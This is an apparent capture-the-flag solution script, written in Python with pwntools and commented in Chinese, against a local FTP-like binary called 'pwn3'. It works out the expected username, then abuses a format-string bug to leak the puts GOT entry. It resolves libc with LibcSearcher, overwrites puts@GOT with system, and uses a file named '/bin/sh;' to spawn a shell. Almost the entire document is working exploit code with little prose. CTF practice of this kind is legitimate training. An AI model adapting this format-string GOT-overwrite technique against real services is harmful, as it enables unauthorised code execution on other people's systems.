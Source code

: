 - 顺序逻辑版：

```python
from pwn import *
from LibcSearcher import LibcSearcher

context.log_level = 'debug'
pwn3 = ELF('./pwn3')
sh = process('./pwn3')
name = ""
for i in "sysbdmin":
    name += chr(ord(i) - 1)  # 通过IDA分析得到的正确的用户名 # rxraclhm
sh.recvuntil('Name (ftp.hacker.server:Rainism):')
sh.sendline(name)  # send name # 用计算得出的正确用户名，通过一开始的用户名校验
# .got.plt:0804A028 off_804A028     dd offset puts          ; DATA XREF: _puts↑r
puts_got = pwn3.got['puts']  # get the addr of puts # 获取 puts 函数的got表项地址
log.success('puts got : ' + hex(puts_got))  # log

gdb.attach(sh) # gdb attach

# ====== step 1: put ====== # put file name 111, content b"%8$s" + p32(puts_got)
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
sh.sendline('1111')
sh.recvuntil('then, enter the content:')
sh.sendline(b"%8$s" + p32(puts_got))
# ====== step 2: get ====== # get 1111, got actual addr of puts
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('1111')
data = sh.recv()
puts_addr = u32(data[:4])  # 获取puts函数的真实地址
# ====== step 3: system_addr ====== get addr of system using LibcSearcher
libc = LibcSearcher("puts", puts_addr)  # 根据 puts 函数的真实地址，比对得出libc的版本(一般多个)
system_offset = libc.dump('system')  # 该版 libc system 函数的偏移量
puts_offset = libc.dump('puts')  # 该版 libc puts 函数的偏移量
system_addr = system_offset - puts_offset + puts_addr  # 该版 libc system 函数的真实地址
log.success('system actual addr = ' + hex(system_addr))  # log
# ====== step 4: put ====== modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr}) # 格式化字符串的偏移是 7，希望在 puts_got 地址处写入 system_addr 地址
print("payload:", payload, "\npayload:", payload.hex())
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
sh.sendline('/bin/sh;')  # file name
sh.recvuntil('then, enter the content:')
sh.sendline(payload)  # file content
# ====== step 5: get ======
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('/bin/sh;')  # file name
# ====== step 6: dir ======
sh.sendline('dir')  # system('/bin/sh')
sh.interactive()
```

